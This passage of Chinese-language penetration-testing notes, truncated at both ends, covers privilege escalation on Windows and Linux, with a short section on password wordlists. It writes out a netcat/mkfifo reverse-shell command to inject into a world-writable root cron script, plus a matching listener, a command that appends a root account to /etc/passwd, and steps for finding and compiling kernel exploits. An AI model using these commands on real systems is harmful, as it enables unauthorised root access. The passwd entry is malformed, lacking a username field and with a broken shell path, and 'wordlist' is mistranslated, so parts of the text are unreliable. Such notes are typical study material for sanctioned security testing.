   ```
  - 查询所有服务进程路径(Program Files 路径表示是用户安装的服务)
  ```
  Get-WmiObject win32_service | Select-Object Name, State, PathName| Where-Object{$_.State -like 'Running'}
  ```
  - 编译源码文件add.user.c, 替换源程序文件

3. 服务路径未引号闭合
4. 内核漏洞

### Linux
1. 文件权限漏洞
  - Linux特权机制
    - 类Unix系统中的一切都是文件, 标准文件包括RWX
  - 寻找可以修改, 并以高权限执行的程序
  - Cron调度任务是重点关注目标
  - 系统级别的调度任务以root权限运行, 通常为管理员创建的脚本(权限不安全)
  - 查看日志发现系统调度任务 /var/log/cron.log
    ```
    grep "CRON" /var/log/cron.log
    ```
  - 脚本文件权限允许所有人修改
    ```
    ls -lah FILE_PATH
    修改脚本内容, 以root权限反弹shell
    echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 |nc IP PORT > /tmp/f >> FILE"
    本地启动监听
    nc -lnvp PORT
    ```
2. /etc/passwd权限漏洞
 - 除非使用集中式身份认证(AD/LDAP), 通常linux系统账号的密码存放于/etc/shadow
   - 默认普通用户不可读
 - 账号信息存储于/etc/passwd当中(全局可读), 第二列可存放密码
   - 若该文件可修改, 那么则可以写入管理员账号实现提权
 - 生成密码
    ```
    openssl passwd [PASSWORD]
    ```
 - 添加账号
    ```
    echo "[PASSWORD_HASH]:0:0:root:/root/bin/bash" >> /etc/passwd
    ```

3. 内核漏洞
 - 查看系统发行版/内核/架构
   ```
   cat /etc/issue
   uname -r
   arch
   ```
 - 搜索内核利用程序
    ```
      searchsploit linux kernel SYSTEM VERSION
    ```
 - 编译代码
    ```
    gcc FILE -o FILE_NAME
    chmod +x FILE_NAME && ./FILE_NAME
    ```
## 密码攻击
- kali当中包含密码字典
- 专属密码字典
  - 通过添加特定目标组织的单词和短语来提高电磁列表的有效性
  - 向字典中添加特定企业的技术/产品名称/变形, 提高其有效性
   ```